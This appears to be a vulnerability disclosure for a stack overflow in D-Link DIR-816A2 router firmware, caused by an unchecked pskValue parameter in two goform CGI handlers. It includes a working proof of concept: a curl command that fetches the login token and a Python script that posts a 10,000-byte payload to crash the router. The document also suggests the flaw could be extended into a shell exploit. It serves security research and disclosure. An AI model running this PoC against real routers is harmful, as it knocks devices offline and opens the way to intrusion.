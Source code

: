 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2WlanBasicSetup.cgi and /goform/form2Wl5BasicSetup.cgi.  With the setSecurity function,the contents obtained by the pskValue parameter are passed to V9, and then the contents matched by V9 are decoded and put into the V17 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests
import base64

tokenid = ''

url = 'http://192.168.0.1/goform/form2WlanBasicSetup.cgi' #/goform/form2Wl5BasicSetup.cgi

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid': tokenid,
    'method': '4',
    'pskValue': payload
}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.

